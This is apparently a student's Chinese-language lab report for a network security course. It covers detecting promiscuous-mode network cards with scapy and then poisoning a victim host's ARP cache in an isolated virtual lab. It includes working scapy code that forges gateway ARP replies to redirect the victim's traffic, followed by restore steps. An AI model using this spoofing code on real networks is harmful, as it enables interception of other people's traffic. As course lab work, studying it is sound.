# 实验四 网络嗅探

## 实验环境配置情况

1. 攻击者主机(由于是kali，所以已经自带了scapy)
   * 08:00:27:d3:e9:5a / eth0
   * 172.16.111.114
2. 受害者主机
   * 08:00:27:c8:03:61 / enp0s3
   * 172.16.111.128
3. 网关
   * 08:00:27:b8:da:76 / enp0s9
   * 172.16.111.1

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```



```bash
# 在攻击者主机上开启 scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.128")
```



```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 这个时候果然多出来了promisc选项
```



```bash
ip link show enp0s3
pkt = promiscping("172.16.111.128")
# 重新看一遍区别
```



* 这个时候我们，能发现区别：从`remaining 1 packets`，变成了`receive 1 packets,got 1 answers`

* 通过这一点，我们可能发现，异常终端，即打开`混杂模式`的终端

```bash
# 记得关闭混杂模式
sudo ip link set enp0s3 promisc off
```



## 实验二：手工单步“毒化”目标主机的 ARP 缓存

1. 获取当前局域网的网关 MAC 地址
 
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

 我们可以看到和之前直接`ip a`看到的网关相同：

2. 伪造网关的arp包（刚刚得到了它的arp地址）

``` bash
# 继续来做
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.128
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头（这个很关键，我看了师哥的才知道！）
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.128", hwdst="08:00:27:d3:e9:5a")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



* 结果如下（后面三条有改变）： 

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b8:da:76", pdst="172.16.111.128", hwdst="08:00:27:c8:03:61")
sendp(restorepkt1, count=100, inter=0.2)
```



```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

* 查看一手结果，果然还原了：


## 参考资料

* [网安课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
* [师哥的实验四](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)

